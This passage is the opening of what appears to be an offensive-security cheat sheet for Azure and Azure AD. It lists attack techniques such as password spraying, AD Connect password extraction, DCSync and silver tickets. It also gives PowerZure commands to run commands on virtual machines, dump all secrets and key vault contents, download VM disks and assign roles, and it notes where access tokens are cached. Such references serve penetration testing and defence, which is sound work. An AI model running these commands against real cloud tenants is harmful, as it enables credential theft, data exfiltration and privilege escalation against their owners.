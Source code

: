 # Azure

## Summary

* [Tools](#tools)
* [Azure Architecture](#azure-architecture)
* [Azure Storage Account - Access](#azure-storage-account----access)
* [Azure AD vs Active Directory](#azure-ad-vs-active-directory)
* [Azure AD - Enumeration](#azure-ad---enumeration)
* [Azure AD - Password Spray](#azure-ad---password-spray)
* [Azure AD - Convert GUID to SID](#azure-ad---convert-guid-to-sid)
* [Azure AD - Sign in with a service principal](#azure-ad---sign-in-with-a-service-principal)
* [Azure AD Connect - Password extraction](#azure-ad-connect---password-extraction)
* [Azure AD Connect - MSOL Account's password and DCSync](#azure-ad-connect---msol-accounts-password-and-dcsync)
* [Azure AD Connect - Seamless Single Sign On Silver Ticket](#azure-ad-connect---seamless-single-sign-on-silver-ticket)
* [Azure AD - ADFS Federation Server ~Cloud Kerberos](#azure-ad---adfs-federation-server-cloud-kerberos)
* [Azure AD - Persistence via Automation accounts](#azure-ad---persistence-via-automation-accounts)
* [Azure VM - Execute command as NT SYSTEM with Contributor right](#azure-vm---execute-command-as-nt-system-with-contributor-right)
* [Office365 - Enumerating Users](#office365---enumerating-users)
* [References](#references)

## Tools

:warning: 16 apr 2019 : BloodHound does not support any analysis with AzureAD.    
:warning: Tokens for Azure are cached in `C:\Users\[Name]\.Azure\accessTokens.json`

* **PowerZure** - 
    ```powershell
    require az module !
    $ git clone https://github.com/hausec/PowerZure
    $ ipmo .\PowerZure
    $ Set-Subscription -Id [idgoeshere]

    # Reader
    $ Get-Runbook, Get-AllUsers, Get-Apps, Get-Resources, Get-WebApps, Get-WebAppDetails

    # Contributor
    $ Execute-Command -OS Windows -VM Win10Test -ResourceGroup Test-RG -Command "whoami"
    $ Execute-MSBuild -VM Win10Test  -ResourceGroup Test-RG -File "build.xml"
    $ Get-AllSecrets # AllAppSecrets, AllKeyVaultContents
    $ Get-AvailableVMDisks, Get-VMDisk # Download a virtual machine's disk

    # Owner
    $ Set-Role -Role Contributor -User test@contoso.com -Resource Win10VMTest
    